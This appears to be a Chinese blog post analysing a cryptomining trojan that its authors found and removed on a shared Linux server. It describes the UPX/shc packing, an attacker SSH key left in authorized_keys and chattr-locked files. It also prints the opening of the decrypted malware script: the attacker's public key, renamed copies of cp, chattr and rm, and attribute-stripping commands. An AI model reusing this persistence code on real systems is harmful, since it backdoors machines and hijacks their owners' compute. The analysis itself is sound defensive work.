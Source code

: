 再看看`ps -ef|grep /usr/bin`，没有异常的那个进程了，CPU负载也降到0了。

![](https://static.scuseek.com/20210518132806.png)

收工。

曾大佬过来问我怎么找到这个 upx 加壳的文件的，想了想我感觉可以水一篇博客，帮助大家分析这个做了一点点对抗的挖矿木马。毕竟这个样本似乎刚出来不久，网上没找到太多的资料。可能有关联词的部分我截图加文本形式写到正文里面了， 做个 SEO 让搜索引擎索引一下。

## 分析恶意文件

不愧是 NESE 的大佬，曾大佬分分钟把恶意文件逆了。

这其实是个shc加密的shell脚本，可以解密，IDA里面也能直接看到 shell 的源码。曾大佬说他还写了个公钥进去，我们赶紧登录上去，果然，公钥就在那里，仿佛在嘲笑我们百密99疏，这么明显的东西没有去关注他。其实也不一定容易发现这个有问题，这台电脑很多个人在用，可能会以为是其他同学写的。

![](https://static.scuseek.com/20210518185556.png)

对比一下字符串，和解密出来的shell里面内容一样，立刻干掉他。我回到我的工位准备上去耍耍，事情变得有趣起来了。

曾大佬叫我说这个文件怎么改不了，我过去一看， `:w` 不能保存，`:w!` 也不行，看起来像是用了`chattr`添加了只读属性。

退出来一看，还真是。

好家伙，还留了一手。

![](https://static.scuseek.com/20210518190036.png)

问题不大，我是root啊，一波 `chattr -i`去掉只读，然后覆盖掉里面的内容，问题解决。当时解决这个问题的时候还没有仔细分析 shell 脚本，看到写了公钥就直接去服务器了，往后面的shell脚本里面是能看到具体的地方的。

一个问题解决了，回来继续分析 shell代码。

解密之后代码如下

```bash
#!/bin/bash
### Functii / Variabile ###
random_name="$(openssl rand -hex 5)"
locatie_miner_default="/usr/sbin/rmt_remount-open"
locatie_pid="/usr/local/share/.logfile"
sshkey="ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAoRh5CpR0h90JlvwmaVUv7wkzp/D2dqs9v9jpR0XVzJOMTafumdQYNHgWpfXd8N8Er01aYeZfe8070bNwNHgueubH96beSEs3gPtIpcrpDMtzRDHkieUlVwyLfbJxXgYWjikuQtn8HNU21hJ5BIUqLKSKAJ1LvPY3O6QVrQwBPbKaIkdbbKDfAYgBRYvCS6n9wvqyTHmN4Yk/CPW4Y489rvffuxGD+NzdX0gfUqu8+YcC8gPV7RcFsqrXMssKHaEg/XSMiuzRqNOy4SzXAM5Rxgst8ff6v9hCR5kx5QbGuIwS4DseWymEjs4YqgXAT5THV6baXG6Tf5utfzDxoCAM0w== raducu"
########################################################
if [ -f /usr/sbin/lib23fr ]; then
	static=/usr/sbin/lib23fr
else
	static=cp
fi

if [ -f /usr/sbin/chattr_bakv2 ]; then
	static2=/usr/sbin/chattr_bakv2
else
	static2=chattr
fi

if [ -f /usr/sbin/lodosir ]; then
	static3=/usr/sbin/lodosir
else
	static3=rm
fi
########################################################

permisiuni_logs(){
	$static2 -i -a -j -t -d -u /usr
	$static2 -i -a -j -t -d -u /usr/bin
```